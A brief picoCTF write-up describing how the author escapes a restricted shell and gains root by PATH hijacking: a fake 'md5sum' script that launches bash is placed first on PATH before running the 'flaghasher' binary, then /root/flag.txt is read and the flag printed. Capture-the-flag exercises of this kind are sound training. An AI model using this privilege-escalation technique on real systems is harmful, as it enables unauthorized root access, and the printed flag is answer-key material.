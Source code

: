 okay this was really interesting.first ssh into the server

i was in a restricted shell so I checked what was available to me by inputting:

```
compgen -c | grep -E 'echo|cat|mv|cp|export|ln|sh|bash'
```

and say I had bash and then inputted

```
bash
```

okay then I had to make md5sum allow me to run commands so I input the following:

```
echo -e '#!/bin/bash\n/bin/bash' > md5sum
chmod +x md5sum
export PATH=.:$PATH
flaghasher
```

and finally I inputted:

```
cat /root/flag.txt
```

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_6e3b0209}
